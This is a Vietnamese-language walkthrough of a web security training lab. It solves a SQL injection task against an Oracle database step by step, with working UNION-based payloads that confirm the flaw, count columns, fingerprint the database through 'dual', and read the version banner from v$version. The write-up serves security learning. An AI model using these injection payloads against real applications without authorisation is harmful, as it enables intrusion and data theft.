

# Lab: SQL injection attack, querying the database type and version on Oracle

## Yêu cầu

Display the database version string.

## 1. Xác nhận tồn tại SQLi

So sánh response giữa 2 payload:

```text
/filter?category=Gifts'+and+2=1--   // không trả về kết quả
/filter?category=Gifts'+and+1=1--   // trả về kết quả bình thường
```

Kết luận: có tồn tại SQLi.

## 2. Kiểm tra số cột

```text
'+order+by+1--   // kết quả bình thường
'+order+by+2--   // kết quả bình thường
'+order+by+3--   // Internal Server Error
```

Kết luận: query có 2 cột.

## 3. Xác định DBMS

```text
'+union+select+null,null+--              // lỗi
'+union+select+null,null+from+dual+--    // success
```

Vì cần `from dual`, có thể xác định đây là Oracle DBMS.

## 4. Xác định kiểu dữ liệu cột

```text
'+union+select+'a','a'+from+dual+--   // success
```

Kết luận: cả 2 cột đều có thể nhận kiểu string.

## 5. Lấy version database

```text
'+union+select+banner,'a'+from+v$version+--
```

Lab solved.

## Kết quả


